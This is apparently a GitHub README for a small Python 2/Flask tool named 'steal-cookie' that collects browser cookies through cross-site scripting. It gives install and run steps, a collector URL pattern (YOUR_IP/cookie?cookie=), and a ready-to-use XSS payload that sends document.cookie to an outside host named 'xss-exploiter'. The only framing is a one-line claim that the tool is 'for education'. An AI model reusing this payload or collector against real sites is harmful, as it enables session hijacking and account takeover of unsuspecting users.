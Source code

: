 # steal-cookie
steal cookies from websites using xss :)

# Requirements :
- python2
- Flask module

# install requirements (Linux) :

````
$ apt install python2
````

````
$ pip install flask
````


# Run It :
 

````
 $ python2 xss.py
 ````
 
# stealing cookie using xss :


  <h4>enter the cookie in this url </h4>
 

````http://YOUR_IP/cookie?cookie=COOKIE```` 
 

# Payload :
  
  ````
  "><img src="x" onerror='document.location="http://xss-exploiter/cookie?cookie=" + document.cookie'>
  ````
  

# Note :
    
This Tool For education .. Good Luck ^_^


# My Links :

- Facebook : <a href="https://www.facebook.com/profile.php?id=100015121337012" >Khaled Nassar</a>

